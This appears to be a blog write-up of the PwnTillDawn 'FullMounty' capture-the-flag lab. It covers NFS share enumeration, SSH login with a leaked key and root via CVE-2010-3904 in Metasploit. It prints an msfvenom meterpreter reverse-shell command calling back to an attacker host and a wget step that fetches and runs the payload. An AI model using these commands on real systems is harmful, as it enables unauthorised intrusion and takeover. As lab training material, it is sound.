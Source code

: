 ```yaml
---
layout: post
title: PwnTillDawn - FullMounty Write-Up
date: 2024-07-11
classes: wide
description: Pwning an NFS share and using privilege escalation techniques to gain root access.
---
```


# FullMounty (10.150.150.134)

![](/assets/img/post/pwntilldawn_fullmounty/1.png)

## Network Scanning

The target machine uses Linux and has a total of 3 flags. We'll start by scanning the machine as usual.

```
sudo nmap -sV -sC 10.150.150.134 -oN nmap.txt
```

![](/assets/img/post/pwntilldawn_fullmounty/2.png)

We have some interesting results including ports `111`, `2049` and `8089`. Personally, I don't always check for SSH unless I really feel there's something useful on it, as most of the time it's a dead end.



## Exploring NFS Share

NFS is a protocol that is used to share files between different hosts and, when misconfigured, can be used to upload malicious files and even root machines. Let's list this share to see what's inside.

```
showmount -e 10.150.150.134
```

![](/assets/img/post/pwntilldawn_fullmounty/3.png)

There's only one share available on `/srv/exportnfs`, which we can try to mount on our machine. For this we'll create a new folder, and use `mount` to access the contents of the share.

```
mkdir nfs
sudo mount -t nfs -o vers=3,nolock 10.150.150.134:/srv/exportnfs ./nfs
```

We can access the share and list it's contents using `ls -la`, it's important to **always** use the `-a` flag as you can easily miss hidden files without it.

![](/assets/img/post/pwntilldawn_fullmounty/4.png)

After copying the files, don't forget to `sudo umount` the folder.



## Connecting Through SSH

We've achieved the first flag that's inside the `FLAG49`, together with SSH key files. We can't really use a key without a user, can we? Fortunately for us `id_rsa.pub` file contains a username that we can use.

![](/assets/img/post/pwntilldawn_fullmounty/5.png)

We can now try to SSH into the machine using this key. This step really took me a long time to figure out as the machine uses a legacy SSH version, which requires some special flags in order to perform a successful connection.

```
sudo ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -oHostKeyAlgorithms=+ssh-rsa -i id_rsa deadbeef@10.150.150.134
```

![](/assets/img/post/pwntilldawn_fullmounty/6.png)

Soon after connecting to the target machine, we can list out the files and discover the next 2 flags in the same folder, but only one of them is readable by our current user which is `FLAG50`, the other one requires root privileges.



## Privilege Escalation

This step is quite tricky, as due to how old the machine is, there's a couple of different methods, some are easier than others. We can use [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) to find out different methods. The more obvious being Dirty Cow, this can be seen by verifying the kernel and OS version.

![](/assets/img/post/pwntilldawn_fullmounty/7.png)

The real problem is that the machine doesn't have a compiler installed, so you'll have to compile the exploit externally and upload it to the target, which wouldn't be a problem if wasn't for the fact that it requires the same OS version, and nobody even remember that Ubuntu 10.04 even existed, neither there's a docker container available. The alternative is to use Metasploit modules which is simpler, so we'll stick to that.

If you decide to use `linux-exploit-suggester`, you've probably seen that CVE-2010-3904 is listed as a highly probable exploit.

![](/assets/img/post/pwntilldawn_fullmounty/8.png)

By Googling it, we can see Metasploit has a module for this vulnerability, which we can use easily, and it also tells us that the exploit has been tested on Ubuntu 10.04 with the exact same kernel version we're working on, that's great!

![](/assets/img/post/pwntilldawn_fullmounty/9.png)

As this is a local exploit, we'll use `msfvenom` to create our meterpreter reverse shell and before uploading it to the target machine.

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.66.66.230 lport=1337 -f elf -o reverse
```

![](/assets/img/post/pwntilldawn_fullmounty/10.png)

Luckily we have access to `wget` in the target machine, so we'll be using python to transfer the binary with the command `python -m http.server` and use it to transfer the malicious binary.

```
wget -o- http://10.66.66.230:8000/reverse
```

![](/assets/img/post/pwntilldawn_fullmounty/11.png)

Now, back to our machine, we'll start Metasploit and use the `multi/handler` module to listen for connections from our previous uploaded binary.

```
sudo msfconsole
```

![](/assets/img/post/pwntilldawn_fullmounty/12.png)

Now let's go back to the target machine and run our binary.

```
chmod +x reverse
./reverse
```

![](/assets/img/post/pwntilldawn_fullmounty/13.png)

Now, I know how tempting is to explore the new openly shell, but we'll just `bg` so this session will be sent to the background, as we'll run our privilege escalation exploit.

![](/assets/img/post/pwntilldawn_fullmounty/14.png)

And now we just run the exploit and profit!

![](/assets/img/post/pwntilldawn_fullmounty/15.png)

I've used this method because I really think it's faster than creating a VM with the specific OS version and compiling the exploit by hand. Besides, Metasploit can do the heavy lifting for us, no need to reinvent the wheel.

![](/assets/img/post/pwntilldawn_fullmounty/16.png)

After typing `shell`, just use `/bin/bash -i` for an interactive shell and print out the `FLAG51` file, voilá!

I really had fun playing this challenge, it taught me how to adapt, as understanding sometimes things won't go so smoothly as expected, it's important to understand how different tools can be used for the same job.